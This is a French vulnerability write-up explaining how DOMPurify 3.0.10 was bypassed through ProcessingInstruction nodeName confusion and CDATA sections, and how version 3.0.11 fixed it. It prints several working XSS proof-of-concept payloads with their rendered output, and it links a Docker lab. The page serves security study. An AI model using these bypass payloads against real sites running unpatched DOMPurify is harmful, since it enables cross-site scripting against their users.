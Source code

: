 ```yaml
---
description: 22 mai 2024
---
```


# Dompurify 3.0.10 bypass - Confusion nodeName and CDATA

> Cet article se base sur les recherches de [RyotaK](https://x.com/ryotkak) ([https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/](https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/)).

## Confusion nodeName

{% hint style="info" %}
Il est recommandé de consulter l'article précédent intitulé [dompurify-3.0.9-bypass-node-type-confusion.md](dompurify-3.0.9-bypass-node-type-confusion.md "mention"), avant de poursuivre la lecture.
{% endhint %}

La version 3.0.9 de Dompurify présente une vulnérabilité de contournement lorsqu'un contenu XML utilisant l'interface `ProcessingInstruction` est utilisé dans une page HTML. La version 3.0.10 corrige ce problème en ajoutant le masque `SHOW_PROCESSING_INSTRUCTION` lors du traitement des nœuds XML, permettant ainsi leur prise en compte.

Pour rappel, le format d'une telle instruction est le suivant :&#x20;

```xml
<?target data?>
```

Et l'exploitation de la vulnérabilité peut s'effectuer de cette manière :

```xml
<?xml-stylesheet ><img src=x onerror=alert(1)>?>
```

Puisque la version 3.0.9 de Dompurify n'analyse pas les instructions de traitement (processing instructions), et que l'interface le permet, l'utilisateur peut librement définir la cible (`target`) :

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?whatever ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

Provoquant l'affichage de la boîte de dialogue :&#x20;

```html
<div id="userContent">
  <!--?whatever -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

Grâce au correctif, la version 3.0.10 de Dompurify analyse dorénavent les noeuds de type `ProcessingInstruction`.

Lorsque Dompurify analyse une balise, la bibliothèque d'assainissement récupère tout d'abord le nom de la balise à analyser en accédant à la propriété `nodeName` :&#x20;

```javascript
/* Now let's check the element's type and name */
const tagName = transformCaseFunc(currentNode.nodeName);
```

Puis vérifie que la balise rencontrée soit autorisée :&#x20;

```javascript
if (!ALLOWED_TAGS[tagName] || FORBID_TAGS[tagName]) {
}
```

Par défaut, les balises autorisées sont les suivantes :&#x20;

```javascript
const html$1 = freeze(['a', 'abbr', 'acronym', 'address', 'area', 'article', 'aside', 'audio', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'content', 'data', 'datalist', 'dd', 'decorator', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'h1', 'h2', 'h3', 'h4', 'h5', 'h6', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'img', 'input', 'ins', 'kbd', 'label', 'legend', 'li', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meter', 'nav', 'nobr', 'ol', 'optgroup', 'option', 'output', 'p', 'picture', 'pre', 'progress', 'q', 'rp', 'rt', 'ruby', 's', 'samp', 'section', 'select', 'shadow', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'wbr']);
```

Pour un noeud de type `ProcessingInstructions`, la propriété `nodeName` retourne la valeur de la cible (`target`). Ainsi, pour contourner l'assainissement effectué par Dompurify en version 3.0.10, il suffit de renseigner une cible (`target`) présente dans la liste de balises autorisées, par exemple `<abbr>` (ou `<img>` comme l'a fait l'auteur de l'article originel) :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?abbr ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--?abbr -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

## Character data (CDATA)

`CDATA` est une section dans un document XML où les données sont traitées comme du texte brut, ce qui signifie que les balises et les entités spéciales à l'intérieur de cette section ne sont pas interprétées comme du code XML mais comme du texte. Cela permet d'inclure des caractères qui pourraient autrement être interprétés comme des balises ou des entités XML.

Une section `CDATA` commence par `<![CDATA[` et se termine par `]]>`. Voici un exemple :&#x20;

```xml
<![CDATA[Ceci est du texte.]]>
```

Le contournement de la version 3.0.9 était dû à l'absence de filtre pour prendre en compte l'interface `ProcessingInstruction`. Il en va de même pour les sections `CDATA` :

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<![CDATA[ ><img src=x onerror=alert(1) ]]>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--[CDATA[ -->
  <img src="x" onerror="alert(1)" ]]>
</div>
```

A noter que la variante suivante semble fonctionner également :&#x20;

{% code lineNumbers="true" %}
```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<![CDATA[ ><img src=x onerror=alert(1)>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```
{% endcode %}

```html
<div id="userContent">
  <!--[CDATA[ -->
  <img src="x" onerror="alert(1)">
  "]]>"
</div>
```

## Corrections

Concernant l'interface `ProcessingInstruction`, Dompurify 3.0.11 a décidé de supprimer toutes les occurrences d'instructions de traitement :

```javascript
/* Remove any ocurrence of processing instructions */
if (currentNode.nodeType === 7) {
  _forceRemove(currentNode);
  return true;
}
```

Pour les sections `CDATA`, l'ajout du filtre `NodeFilter.SHOW_CDATA_SECTION` permet de détecter correctement leur utilisation. Étant donné que la valeur de la propriété `nodeName` d'une telle section est `#cdata-section`, qui n'est pas une balise autorisée par défaut, le contournement n'est plus possible.

```javascript
const _createNodeIterator = function _createNodeIterator(root) {
  return createNodeIterator.call(root.ownerDocument || root, root,
  // eslint-disable-next-line no-bitwise
  NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION | NodeFilter.SHOW_CDATA_SECTION, null);
};
```

## Labs

Afin de tester et d'exploiter ce contournement, une image Docker est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/dompurify-3.0.10-bypass-confusion-nodename-and-cdata).
